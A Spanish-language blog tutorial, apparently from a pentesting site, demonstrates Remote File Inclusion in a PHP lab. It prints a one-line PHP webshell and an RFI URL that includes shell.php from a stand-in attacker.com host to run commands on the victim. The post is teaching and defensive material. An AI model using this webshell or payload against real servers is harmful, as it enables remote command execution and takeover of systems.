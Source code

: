 ```yaml
---
title: Remote File Inclusion (RFI)
published: 2025-02-24
description: "Uso de ssh para pivotar en la red."
image: "./portada.png"
tags: ["RFI", "Web", "Pentesting"]
category: Web
draft: false
---
```



## Índice
- [Introducción](#Introducción)
- [Entorno de pruebas](#Entorno-de-pruebas)
- [Conclusión](#Conclusión)

## Introducción
El **Remote File Inclusion (RFI)** es una vulnerabilidad que permite a un atacante incluir archivos remotos en un servidor vulnerable. A diferencia del Local File Inclusion (LFI), que solo carga archivos locales, el RFI permite ejecutar código alojado en otra web.

Esto es peligroso porque un atacante puede alojar un archivo malicioso en su propio servidor y usar la vulnerabilidad para ejecutarlo en la máquina víctima. Esto puede llevar a la toma de control del sistema, robo de datos o la instalación de malware.

En este caso alojaremos una WebShell como POC.

## Entorno de pruebas
- 2 Equipos:
    - **Máquina atacante**: Kali Linux => 192.168.1.20
    - **Máquina servidor WEB**: Ubuntu  => 192.168.1.30

![img0](./entorno.png)

Para poder lograr explotar esta vulnerabilidad, deberemos crear un archivo PHP que permita la inclusión de archivos:

![img1](./portada.png)

Este código básico permite que el servidor reciba un valor mediante una solicitud GET a través del parámetro file e incluya el archivo correspondiente en la página.

Con esta sencilla configuración, ya tenemos un **Local File Inclusion (LFI)** funcional.
Servidor WEB
```
php -S 192.168.1.30:80
```
![img1](./phpserv1.png)

Kali Linux
```
http://192.168.1.30/?file=flag.txt
```
![img2](./lfi.png)

Para lograr un **Remote File Inclusion (RFI)** y poder subir un archivo al servidor de forma remota, es necesario modificar la configuración de PHP en el archivo ``php.ini``. En particular, hay que habilitar la opción que permite la inclusión de archivos desde URLs remotas.

Dentro de este archivo, tenemos que buscar la variable allow_url_include:

![img3](./include.png)

Una vez que se ha habilitado la **inclusión remota de archivos (RFI)** y se ha configurado adecuadamente el archivo ``php.ini``, el siguiente paso es intentar llamar nuestra webshell para poder lanzar comandos remotamente.

1. Crear un servidor HTTP en la máquina atacante para alojar la Webshell.
```php
<?php system($_GET['cmd']); ?>
```
![img4](./python3.png)

Este código PHP permite ejecutar comandos del sistema que se pasan como parámetros en la URL. Por ejemplo, si visitamos ``http://attacker.com/shell.php?cmd=ls``, el servidor devolverá el resultado del comando ls ejecutado en la máquina atacante.

2. Llamar a la Webshell alojada en nuestra máquina atacante.
   
Una vez que la webshell está cargada en el servidor atacante, el siguiente paso es aprovechar la vulnerabilidad Remote File Inclusion (RFI) en el servidor víctima. Si el servidor víctima permite incluir archivos desde URLs remotas, podemos incluir la webshell alojada en nuestra máquina atacante.

La URL para incluir la webshell en el servidor víctima podría verse algo así:
``
http://victimsite.com/index.php?file=http://attacker.com/shell.php&cmd=id
``

![img5](./rcc.png)
   
Estamos ejecutando comandos localmente usando un archivo remoto. Esto es básicamente un Remote File Inclusion.

## Conclusión


El **Remote File Inclusion (RFI)** es una vulnerabilidad crítica que permite a los atacantes ejecutar código remoto en un servidor vulnerable, comprometiendo gravemente la seguridad del sistema. A través de la inclusión de archivos externos, un atacante puede ejecutar comandos arbitrarios, acceder a información sensible o incluso tomar control completo del servidor afectado.

En este post, hemos demostrado cómo un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar una **webshell** remotamente, utilizando una configuración incorrecta de PHP. Al habilitar opciones como `allow_url_include` y manipular el parámetro `file`, el atacante puede hacer que el servidor incluya un archivo desde un servidor controlado por él y ejecutar comandos del sistema.

Es fundamental que los administradores de sistemas mantengan configuraciones seguras, validen entradas de usuario adecuadamente y desactiven opciones inseguras como la inclusión remota de archivos. La prevención de ataques RFI es crucial para proteger los servidores de ataques externos que pueden tener consecuencias devastadoras.

![img6](./rig.gif)
